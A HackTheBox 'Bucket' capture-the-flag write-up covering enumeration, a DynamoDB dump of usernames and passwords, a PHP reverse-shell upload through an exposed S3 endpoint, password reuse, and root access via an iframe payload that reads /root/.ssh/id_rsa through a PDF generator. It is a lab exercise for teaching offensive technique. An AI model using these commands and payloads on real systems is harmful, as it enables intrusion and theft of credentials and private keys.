



# Bucket HackTheBox Writeup


## __First Stage : Enumeration__

So first add the IP address in **/etc/hosts** as __bucket.htb__
As usual we start with nmap scan.

```
# Nmap 7.91 scan initiated Wed Mar  3 21:57:48 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.10.212
Nmap scan report for 10.10.10.212
Host is up, received reset ttl 63 (0.23s latency).
Scanned at 2021-03-03 21:57:49 IST for 249s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://bucket.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So let's visit port 80



In viewing the source code of the website we can see the s3 bucket.


Hence let's add s3.bucket.htb in **/etc/hosts** file and visit it.

By visiting the website we get a simple web page showing us that the bucket is running.



So I started gobuster .

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://s3.bucket.htb/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php,zip,json
[+] Timeout:        10s
===============================================================
2021/03/04 12:51:53 Starting gobuster
===============================================================
/shell (Status: 200)
/health (Status: 200)
/server-status (Status: 403)
===============================================================
```

Hence by visiting /health directory we can see that dynamodb is running. And by visiting /shell/
we get the **AWS Console**.


## __Second Stage : Initial access as www-data__

So after doing some research on dynamo db I got to know some code in order to get the details of the database.


So the code for listing tables is :
```
var params = {
 };
 dynamodb.listTables(params, function(err, data) {
   if (err) console.log(err, err.stack); // an error occurred
   else     console.log(data);           // successful response
   
 });
```


So the table name is **users**.

Hence we can describe the table in order to see the columns.

Code for describing table is :

```
var params = {
  TableName: "users"
 };
 dynamodb.describeTable(params, function(err, data) {
   if (err) console.log(err, err.stack); // an error occurred
   else     console.log(data);           // successful response
   
   
 });
```


So the table contains username and password.

Let's scan the table for listing the contents

So the code for scanning is :

```

var params = {
  TableName: "users"
 };
dynamodb.scan(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});
```


Hence we got the password and username I saved it for later.

So using the aws-cli for linux I started enumerating about the server


So seeing the help command we can see we can copy files from local directory to the server.


So using this we can upload php reverse shell to the machine and get a shell.
> aws --endpoint-url http://s3.bucket.htb s3 cp revshell.php s3://adserver/revshell.php && curl http://bucket.htb/revshell.php &> /dev/null


## __Third Stage : www-data to roy__

After running linpeas and manual enumeration I didn't find anything interesting.
Hence I tried the passwords we got in database on user roy and one of them worked.

## __Fourth Stage : roy to root__

So user roy didn't have any sudo permissions.

Hence analyzing the open ports we get something interesting.


So portforwarding 8000 we can see a web server running.


So running gobuster gave me a hint where this web server is located in the box.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://localhost:8000/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php,zip
[+] Timeout:        10s
===============================================================
2021/03/04 15:16:22 Starting gobuster
===============================================================
/files (Status: 301)
/index.php (Status: 200)
/vendor (Status: 301)
/server-status (Status: 200)
===============================================================
```

So searching for vendor directory we get the location


So visiting the **/var/www/bucket-app** we can see the  server.

Inspecting the first few lines of  index.php we get some info.

```
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
	if($_POST["action"]==="get_alerts") {
		date_default_timezone_set('America/New_York');
		$client = new DynamoDbClient([
			'profile' => 'default',
			'region'  => 'us-east-1',
			'version' => 'latest',
			'endpoint' => 'http://localhost:4566'
		]);

		$iterator = $client->getIterator('Scan', array(
			'TableName' => 'alerts',
			'FilterExpression' => "title = :title",
			'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
		));

		foreach ($iterator as $item) {
			$name=rand(1,10000).'.html';
			file_put_contents('files/'.$name,$item["data"]);
		}
		passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
	}
}
else
{
?>
```

We can see that the code searches for a table name alerts , in that table is searches for the 
 __Ransomware__ and converts the column into PDF format and stores in  /var/www/bucket-app/files/.
All these process are running in root.

Exploit :
So to exploit this let's create a table named alerts and create a column named **Ransomware** in 
that we will try to get the private key of the root.

Command for creating alerts table :

>aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url http://s3.bucket.htb


Command for payload is :

> aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head></head><body><iframe src='/root/.ssh/id_rsa'></iframe></body></html>"}}' --endpoint-url http://s3.bucket.htb


To trigger the payload do this 


So we copy the pdf to our local machine .

since we get the key we can ssh into the machine as root.


